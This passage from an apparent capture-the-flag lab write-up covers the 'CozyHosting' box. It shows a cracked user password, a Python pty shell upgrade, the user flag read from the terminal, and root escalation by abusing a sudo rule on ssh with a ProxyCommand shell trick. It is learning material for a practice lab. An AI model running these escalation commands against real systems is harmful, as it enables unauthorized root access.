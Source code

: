Password: manchesterunited

python3 -c 'import pty; pty.spawn("/bin/bash")'

josh@cozyhosting:~$ ls

ls

user.txt

josh@cozyhosting:~$ cat user.txt

cat user.txt

70ed2ab8d4ac574e826b6dd914267bc9

User flag = 70ed2ab8d4ac574e826b6dd914267bc9

Success! Now that we have the user flag, we continue to wait for the admin hash to crack.

Priv Esc

Using sudo -l we can check our options to escalte from the user "josh":

josh@cozyhosting:~$ sudo -l

sudo -l

[sudo] password for josh: manchesterunited

Matching Defaults entries for josh on localhost:

env_reset, mail_badpass,

secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,

use_pty

User josh may run the following commands on localhost:

(root) /usr/bin/ssh *

It appears we can run ssh as root.

After many hours, a hint later, and doing more research I found something. Using the GTFObins.github.io website, if I want to spawn an interactive shell through the ProxyCommand option, I can do that.

I want to do that, so I use the command provided on the website:

josh@cozyhosting:~$ ssh -o ProxyCommand=';sh 0<&2 1>&2' x

ssh -o ProxyCommand=';sh 0<&2 1>&2' x

$ id

id

uid=1003(josh) gid=1003(josh) groups=1003(josh

Seems like I am missing something. I was not thinking and typed ssh instead of sudo. I also was missing the directory that "josh" has root access to use ssh through. Let's change it up:

josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
